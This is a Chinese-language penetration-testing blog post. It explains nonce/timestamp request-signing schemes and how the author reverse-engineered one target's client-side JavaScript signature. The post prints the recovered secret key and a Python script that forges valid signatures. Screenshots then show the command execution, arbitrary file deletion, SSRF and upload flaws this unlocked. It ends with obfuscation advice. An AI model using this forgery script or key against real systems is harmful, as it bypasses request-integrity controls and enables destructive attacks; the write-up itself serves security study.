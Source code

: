 ```yaml
---
layout: post
title: 一次验签机制的讨论与伪造绕过
noToc: true
date: 2020-01-18 15:30:00 +0800
tags: WEB安全  渗透测试
cover: '../assets/sign.png' 
---
```


## 一次验签机制的讨论与伪造绕过

### 背景

在实际资产网站中比较有安全意识的开发，为了防止攻击者获的请求数据包和参数进行伪造和重放，会在每一次请求中加上sig/sign验签机制，来保证请求不会被伪造和重放，确保请求的安全性。

主要防御措施可以归纳为两点：

- 对请求合法性进行校验
- 对请求的数据进行校验

而sig的核心是参数值防戳改+防二次请求。

nonce方案，加上仅一次有效的随机字符串，如：加密算法MD5/hash(random_string+token+request_param+param+param_value)处理后生成一个一次性有效的字符串值sig，存起来或在集合中，第二次先进行判断若出现相同的sig则认为重放，若放在集合则产生一个问题集合会无限扩大。

timestamp方案，即timestamp和其他参数一起进行数字签名。一次正常的HTTP请求，从发出到达服务器一般都不会超过一个规定的时间范围假设为60s，那么在60s之内也就可以进行重放攻击。

所以现在采用较为安全的方案一般可以是，nonce+timetamp方案，timetamp保证60s之外无法进行重放伪造，nonce又保证了60s之内请求的一次性有效，timetamp下60s后sig失效,同时解决集合无限放大的问题。

但是尽管sig生成机制多么的严密，理论上来说，还是防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定会出现在在客户端里（js）中，所以只要得到客户端的sign生成算法仍然存在sign伪造绕过。卸下验签机制的伪装后系统往往存在着许多严重的漏洞。就像下面的案例。

### 进入主题

最近渗透某系统时发现在前端每一步请求时都会生成一个sig验签机制，来保证请求的数据和提交的请求不可被重放。在验签机制的生成可在前端**xxx.js**中查看其签名机制的生成原理，即

md5((e.indexOf("?") > 0 ? r.objKeySort($.parseJSON('{"' + e.split("?")[1].replace(/=/g, '":"').replace(/&/g, '","') + '"}')) : "{}") + d + sessionStorage.getItem("token") + a["default"].ajaxStr);

如下图

![img1]({{site.baseurl}}/assets/images/sign_pass/1.png)

sessionStorage.getItem("token")为jwt token固定且已知，d为6位生成的随机字符串（也可忽略可在下一次重新生成一个）r为doOutput->this传入的对象t

![im2]({{site.baseurl}}/assets/images/sign_pass/2.png)

![img3]({{site.baseurl}}/assets/images/sign_pass/3.png)

t为用户请求的功能接口可控。

用objKeySort如下图解析接口提交的data数据将等于号替换成冒号等操作转化为json格式然后按照键进行排序得到新的json数据。

![img4]({{site.baseurl}}/assets/images/sign_pass/4.png)

只有一个a["default"].ajaxStr未知，但该参数值也为一个固定值，

 

 

![img5]({{site.baseurl}}/assets/images/sign_pass/5.png)

 

 

![img6]({{site.baseurl}}/assets/images/sign_pass/6.png)

 

 

在这种情况下若a["default"].ajaxStr参数被泄露，攻击者可根据构造的数据包重新伪造一个签名进行重放，如下删除请求，后台代码中对参数并未进行过滤直接拼接进行任意文件操作，

![img7]({{site.baseurl}}/assets/images/sign_pass/7.png)

对应后端代码，存在任意文件删除，若签名伪造成功则可完成攻击。

![img8]({{site.baseurl}}/assets/images/sign_pass/8.png)

，代码多处存在问题，因此ajaxStr若能够在前台泄露则可造成在验签机制被伪造绕过的情况下系统的多处漏洞（使用到的危险函数未过滤）被触发的风险。

根据客户端中以上js中验签机制生成算法流程可以得到：

sig=md5({"param":"value"}+random_string+token+ajaxStr)

###  卸下sig伪装

抓取一个请求包

![img9]({{site.baseurl}}/assets/images/sign_pass/9.png)

token=

![img11]({{site.baseurl}}/assets/images/sign_pass/14.png)

调试js,获取ajaxstr

<img src="{{site.baseurl}}/assets/images/sign_pass/10.png" alt="img10"  />

ajaxStr="f%>zDq&6XqiY"

得到

sig=md5({"param":"value"}+random_string+token+ajaxStr)

中各参数的值

![img12]({{site.baseurl}}/assets/images/sign_pass/11.png)

![img13]({{site.baseurl}}/assets/images/sign_pass/12.png)

根据客户端js的验签机制生成算法python进行复现及伪造

![img14]({{site.baseurl}}/assets/images/sign_pass/13.png)

sig伪造exp

```python
import random
import string
import json
import time
import hashlib

def parseJSON(dataStr):
	strJSON="{'"+dataStr.replace("=","':'").replace("&","','")+"'}"
	return strJSON
def objKeySort(json_str):
	SortJson=json.dumps(eval(json_str),sort_keys=True)
	print(SortJson)
	print(type(SortJson))
	return SortJson
a = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]

#token="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InN1cGVybWFuIiwiaWF0IjoxNTc4OTA2Mzk3LCJpcGFkZHIiOiIxOTIuMTY4Ljg2LjIzMiIsImxvZyI6MTU3ODkwNjM5MSwidWlkIjoiIn0.OE9DEe2qS6p1eQeXXxGoUTfjMQZn3E8Ni73V2BIcc5Y";
token=''

if token=='':
	token=input("请输入token:")
	dataStr=''

if dataStr=='':
	dataStr=input("请输入提交的数据：")
jsonStr=parseJSON(dataStr)
print("Sort前-JSON:"+jsonStr+'\n')
objKeySort_JSON=objKeySort(jsonStr).replace(": ",":").replace(", ",",")
print("Sort后-JSON:"+objKeySort_JSON+'\n')
ajaxStr="f%>zDq&6XqiY";
num=''.join(random.sample(a,6));
num1='5WUX51';
#抓包下载
str_sig=str('''{"pcap_name":"pcap_20200113_155745.pcap|test|"}''')+num+token+ajaxStr;
#添加数据
str_sig=objKeySort_JSON+num+token+ajaxStr;

a = hashlib.md5()
a.update(str_sig.encode(encoding='utf-8'))
sig=a.hexdigest()
print("加密的字符串为："+str_sig+'\n')
print("sig:"+sig+'\n');
print("non:"+num+'\n');
print(dataStr+"&non="+num+"&sig="+sig);
```

### 渗透开始

#### 命令执行

![img15]({{site.baseurl}}/assets/images/sign_pass/15.png)

#### 任意文件删除

![img16]({{site.baseurl}}/assets/images/sign_pass/16.png)

![img17]({{site.baseurl}}/assets/images/sign_pass/17.png)

![img18]({{site.baseurl}}/assets/images/sign_pass/18.png)

![img19]({{site.baseurl}}/assets/images/sign_pass/19.png)

![img20]({{site.baseurl}}/assets/images/sign_pass/20.png)

#### SSRF

![img21]({{site.baseurl}}/assets/images/sign_pass/21.png)

#### 任意文件上传

![img22]({{site.baseurl}}/assets/images/sign_pass/21.png)

### 防御

理论上来说，根本防不了攻击者自己生成sign，因为客户端需要发送合法的数据包，那么生成的算法代码一定在客户端里的，所以建议提高攻击难度，对前端js进行混肴加密。

Js混肴加密可参考：

https://github.com/c0ny1/jsEncrypter

进行加密。